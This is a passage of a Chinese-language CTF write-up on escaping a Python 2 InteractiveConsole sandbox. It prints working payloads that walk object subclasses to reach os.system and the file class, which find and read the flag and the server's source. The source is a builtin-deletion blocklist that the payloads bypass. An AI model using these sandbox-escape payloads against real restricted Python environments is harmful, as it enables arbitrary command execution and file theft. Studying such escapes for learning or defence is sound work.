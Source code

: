 经过一番搜索后，发现flag的路径为：`/home/starbucks/grande/greentea/latte/flag`

    ~ ⮀ nc 115.29.191.81 15878
    Python 2.7.6 (default, Mar 22 2014, 22:59:56)
    [GCC 4.8.2] on linux2
    Type "help", "copyright", "credits" or "license" for more information.
    (InteractiveConsole)
    [x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ ==     'catch_warnings'][0].__init__.func_globals["linecache"].__dict__["os"].system('find /home -name flag');exit()
    /home/starbucks/grande/greentea/latte/flag
    >>> 0

然后读取flag的内容：

    ~ ⮀ nc 115.29.191.81 15878
    Python 2.7.6 (default, Mar 22 2014, 22:59:56)
    [GCC 4.8.2] on linux2
    Type "help", "copyright", "credits" or "license" for more information.
    (InteractiveConsole)
    [x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'catch_warnings'][0].__init__.func_globals["linecache"].__dict__["os"].system('cat /home/starbucks/grande/greentea/latte/flag');exit()
    hctf{J_do_mo_xyz_!_123_HAHA_lee}
    >>> 0

PS：这里也能读取程序本身代码（/home/starbucks/starbucks.py）：

     ~ ⮀ nc 115.29.191.81 15878
    Python 2.7.6 (default, Mar 22 2014, 22:59:56)
    [GCC 4.8.2] on linux2
    Type "help", "copyright", "credits" or "license" for more information.
    (InteractiveConsole)
    ().__class__.__bases__[0].__subclasses__()[40]('/home/starbucks/starbucks.py').read();exit()
    >>> "#!/usr/bin/env python\n# -*- coding: utf-8 -*-\nfrom code import InteractiveConsole\n\nvars = globals().copy()\nvars.update(locals())\nshell = InteractiveConsole(vars)\n# shell.interact()\n\n# rm unsafe\ndef make_safe():\n    UNSAFE = ['open',\n              'file',\n              'execfile',\n              #'compile',\n              'reload',\n              '__import__',\n              'eval',\n              'input']\n    for func in UNSAFE:\n        del __builtins__.__dict__[func]\n\ndel vars\nmake_safe()\n\nshell.interact()\n"

**starbucks.py**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from code import InteractiveConsole
vars = globals().copy()
vars.update(locals())
shell = InteractiveConsole(vars)
# shell.interact()

# rm unsafe
def make_safe():
    UNSAFE = ['open',
              'file',
              'execfile',
             #'compile',
              'reload',
              '__import__',
              'eval',
              'input']
    for func in UNSAFE:
        del __builtins__.__dict__[func]


del vars
```